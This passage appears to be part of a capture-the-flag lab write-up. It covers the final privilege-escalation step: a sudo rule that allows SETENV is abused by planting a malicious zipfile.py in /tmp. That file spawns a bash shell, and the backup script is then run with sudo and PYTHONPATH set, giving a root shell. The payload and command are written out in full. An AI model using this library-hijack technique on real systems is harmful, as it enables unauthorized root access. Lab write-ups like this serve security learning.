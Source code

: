 ```
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()
```

We can't edit the file itself, however because of the SETENV we can specify the PYTHONPATH for imports, which we have one of, zipfile.

So in /tmp lets make a zipfile.py with the following simple payload,
```
import pty
pty.spawn("/bin/bash")
```

With our libary hijack in place, we execute the following command, 
```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
```
We successfully spawn a root shell and we can claim the root.txt flag in /root.

